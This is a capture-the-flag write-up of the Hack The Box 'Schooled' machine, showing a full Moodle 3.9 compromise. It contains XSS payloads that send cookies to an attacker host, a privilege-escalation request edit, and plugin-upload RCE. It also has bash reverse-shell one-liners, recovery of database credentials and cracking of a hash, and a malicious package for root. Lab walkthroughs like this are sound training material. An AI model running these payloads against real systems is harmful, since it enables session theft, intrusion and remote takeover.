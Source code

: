 ## Schooled

https://app.hackthebox.com/machines/Schooled

<br>

### Manoel Access

Open 10.10.10.234:22  
Open 10.10.10.234:80  
Open 10.10.10.234:33060

Subdomain enumeration founds moodle.schooled.htb.
```
wfuzz -c -f sub-fighter -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u 'http://schooled.htb' -H "Host: FUZZ.schooled.htb" --hw 1555
```

Based on [Moodle Github](https://github.com/moodle/moodle), we find moodle's version 3.9 at `/moodle/theme/upgrade.txt`.

We can perform XSS to steal cookies as [this github](https://github.com/HoangKien1020/CVE-2020-25627) shows.
```
<script>var i=new Image;i.src="http://10.10.14.2/xss.php?"+document.cookie;</script>

OR

var fetch_req = new XMLHttpRequest();
fetch_req.open("GET", "http://10.10.14.2/?cookie=" + document.cookie, false);          
fetch_req.send();
```

<br>

### Lianne Access
There is another CVE that we can use to privesc from teacher into manager.

First, we need to know someone that has manager role. On Lianne Carter page, we see "Manager & English Lecturer", so we can try her.

Go to Math class --> Participants --> Enrol Users and enter Lianne and Enroll users. The request will be:
```
GET /moodle/enrol/manual/ajax.php?mform_showmore_main=0&id=5&action=enrol&enrolid=10&sesskey=CIXNWKLP05&_qf__enrol_manual_enrol_users_form=1&mform_showmore_id_main=0&userlist%5B%5D=25&roletoassign=5&startdate=4&duration=
```

We want to change `userlist%5B%5D=25` to Manuel's id that we can find that is 24 on his profile page and change `roletoassign` from 5 to 1 (manager). Save this two requests since a reset is removing lianne and our manager permission every minute.

Now a button with "Log in as" appears on Lianne's profile. We can impersonate her user.

<br>

#### Enable Permissions
In the same github link, we can enable full permission for our user with the payload indicated there editing role 'Manager' on site administration.

<br>

#### RCE
We can follow [this github](https://github.com/HoangKien1020/Moodle_RCE/blob/master/README.md) to achieve RCE.

Upload plugin from zip file at Site administration and get RCE.

```
curl http://moodle.schooled.htb/moodle/blocks/rce/lang/en/block_rce.php?cmd=id
```

I've automated most of the steps in exploit.py, you just need to put the user cookie hardcoded in the file.

<br>

#### Better Shell
```
curl -G --data-urlencode "cmd=bash -c 'bash -i >& /dev/tcp/10.10.14.2/1337 0>&1'" http://moodle.schooled.htb/moodle/blocks/rce/lang/en/block_rce.php

/usr/local/bin/python3 -c 'import pty;pty.spawn("bash")'
```

### Jamie User
We find DB password at /usr/local/www/apache24/data/moodle/config.php.
```
$CFG->dbuser    = 'moodle';
$CFG->dbpass    = 'PlaybookMaster2020';
```

Connect on the database and find hashes.
```
/usr/local/bin/mysql -u moodle -pPlaybookMaster2020 moodle
```

There are a lot of bcrypt hashes, but the most interesting is from admin username.
```
admin | jamie@staff.schooled.htb
$2y$10$3D/gznFHdpV6PXt1cLPhX.ViTgs87DCE5KqphQhGYR5GFbcl4qTiW
```

Crack it and find Jamie's password:!QAZ2wsx
```
hashcat -m 3200 hash /usr/share/wordlists/rockyou.txt
```

<br>

### Root User
```
(ALL) NOPASSWD: /usr/sbin/pkg update
(ALL) NOPASSWD: /usr/sbin/pkg install *
```

```
echo '/tmp/shell.sh' > x.sh
fpm -n x -s dir -t freebsd -a all --before-install ./x.sh  .


/tmp/shell.sh
#!/bin/bash
bash -i >& /dev/tcp/10.10.14.2/9001 0>&1


sudo pkg install -y --no-repo-update ./x-1.0.txz
```
